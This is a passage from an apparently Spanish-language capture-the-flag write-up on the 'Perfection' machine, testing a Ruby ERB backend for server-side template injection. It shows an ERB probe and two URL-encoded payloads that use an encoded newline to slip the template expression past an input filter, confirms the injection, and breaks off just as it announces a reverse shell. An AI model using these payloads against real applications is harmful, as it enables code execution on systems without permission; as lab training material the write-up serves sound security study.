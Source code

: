 ```ruby
<%= 7*7 %>
```

Encontramos que se genera un error ya que el backend interpreta el símbolo **%** como una codificación errónea.

<div style="text-align: center;">
		<img src="/assets/images/Perfection/codificationError.jpg" alt="Clicker-usernamePlayers" width="1000" oncontextmenu="return false;" />
</div>
<br>
Para evitar esto podremos seleccionar el payload y con **Ctrl+u** convertir a **URL-ENCODE** todos los caracteres especiales.

```url-encode
sdfs%0A<%25%3d+7*7+%25>
```

Otra alternativa es convertir completamente el payload en dicho formato.

```url-encode
sdfs%0A%3c%25%3d%20%37%2a%37%20%25%3e
```

Aquí validamos que estamos ante un **SSTI** ya que se procesa la entrada que ingresamos.

<div style="text-align: center;">
		<img src="/assets/images/Perfection/payloadExecution.jpg" alt="Clicker-usernamePlayers" width="1000" oncontextmenu="return false;" />
</div>
<br>
Ahora entablare una revshell.
